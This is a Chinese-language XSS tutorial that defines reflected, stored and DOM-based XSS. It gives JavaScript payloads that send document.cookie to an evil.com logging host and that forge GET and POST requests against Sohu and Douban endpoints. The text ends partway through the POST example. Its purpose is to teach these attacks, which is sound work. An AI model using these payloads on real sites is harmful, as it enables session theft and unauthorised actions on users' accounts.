 # 跨站脚本攻击（XSS）

> OWASP TOP 10 威胁曾多次把 XSS 列在榜首。

## XSS 简介

跨站脚本攻击：

- Cross Site Script (XSS)。通常指黑客通过 `HTML` 注入的方式篡改了网页、插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。

XSS 根据效果不同可以分为如下几类：

1. **反射型 XSS**，或称 “非持久型 XSS”（Non-persistent XSS）。只是简单地把用户的输入 “反射” 给浏览器。
2. **存储型 XSS**，或称 “持久型 XSS”（Persistent XSS）。会把用户输入的数据 “存储” 在服务端，这种 XSS 具有很强的稳定性。
3. **DOM Based XSS**。这种 XSS 从效果上来看也属于反射型 XSS。与后者的区别是通过更改 DOM 树的方式而非执行 `JavaScript` 代码的方式进行攻击。

## XSS Payload

### 窃取 Cookie

最常见的 XSS Payload 就是读取浏览器的 `cookie` 对象：

```js
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie)
document.body.appendChild(img)
```

这段代码会在页面中插入一张看不见的图片，同时把 `document.cookie` 对象作为参数发送到远程的服务器。事实上，`/log` 路径不一定要存在，因为这个请求会在远程服务器的 WEB 日志中留下记录。这样就做完了一个最简单的窃取 `cookie` 的 XSS payload。

`Cookie` 的 `HttpOnly` 标识可以防止 "Cookie 劫持"，有的网站则会把 Cookie 与客户端的 IP 绑定。

### 构造 GET 请求

比如搜狐上有一篇文章，它删除文章的链接是这样的：

```
http://blog.sohu.com/message/entry.do?m=delete&id=1000
```

对于攻击者来说，则只需要构造夏敏的一个 payload 就可以发起一个删除文章的 GET 请求：

```javascript
var img = document.createElement("img");
img.src = "http://blog.sohu.com/message/entry.do?m=delete&id=1000"
document.body.appendChild(img)
```

### 构造 POST 请求

比如豆瓣上有一处的表单提交是这样两个字段 `ck` 与 `mb_text`，我们尝试模拟这个过程。要模拟 POST 请求的过程有两种方式。

第一种方式是构造一个 form 表单，然后自动提交这个表单。

```javascript
var f = document.createElement("form");
Object.assign(f, {"action": "", "method": "post"});
document.body.appendChild(f);

var i1 = document.createElement("input");
Object.assign(i1, {"name": "ck", "value": "JiUY"});
f.appendChild(i1);

var i2 = document.createElement("input");
Object.assign(i2, {"name": "mb_text", "value": "testtesttest"});
f.appendChild(i2);

```
